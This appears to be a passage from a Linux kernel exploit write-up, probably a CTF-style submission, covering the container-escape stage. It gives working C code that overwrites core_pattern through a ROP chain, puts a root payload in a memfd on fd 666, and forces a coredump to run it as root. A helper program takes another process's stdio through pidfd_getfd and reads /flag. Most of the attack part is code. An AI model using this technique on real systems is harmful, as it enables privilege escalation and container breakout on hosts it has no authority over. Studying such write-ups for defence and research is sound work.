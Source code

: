 We overwrite pipe_buffer object with stack pivot gadget, and after we closed all the pipes it will execute stack pivot gadget and finally landed on ROP gadget that generated before.

## Achieve container escape.

Once we control the kernel RIP we crafted ROP to cause core_pattern being overwritten to `|/proc/%P/fd/666`:

We then use memfd and write an executable file payload in fd 666.
```C
int check_core()
{
    // Check if /proc/sys/kernel/core_pattern has been overwritten
    char buf[0x100] = {};
    int core = open("/proc/sys/kernel/core_pattern", O_RDONLY);
    read(core, buf, sizeof(buf));
    close(core);
    return strncmp(buf, "|/proc/%P/fd/666", 0x10) == 0;
}
void crash(char *cmd)
{
    int memfd = memfd_create("", 0);
    SYSCHK(sendfile(memfd, open("root", 0), 0, 0xffffffff));
    dup2(memfd, 666);
    close(memfd);
    while (check_core() == 0)
        sleep(1);
    *(size_t *)0 = 0;
}
```

Later when coredump happened, it will execute our executable file as root in root namespace:
```C
*(size_t*)0=0; //trigger coredump
```

Executable file `root` is used to spawn shell when coredump happened. This is the code looks like:
```c++
void* job(void* x){
	FILE* fp = popen("pidof billy","r");
	fread(buf,1,0x100,fp);
	fclose(fp);
	int pid = strtoull(buf,0,10);
	sprintf(path,"/proc/%d/ns/net",pid);
	int pfd = syscall(SYS_pidfd_open,pid,0);
	int stdinfd = syscall(SYS_pidfd_getfd, pfd, 0, 0);
	int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
	int stderrfd = syscall(SYS_pidfd_getfd, pfd, 2, 0);
	dup2(stdinfd,0);
	dup2(stdoutfd,1);
	dup2(stderrfd,2);
	system("cat /flag;echo o>/proc/sysrq-trigger");
}
int main(int argc,char** argv){	
	job(0);
}
```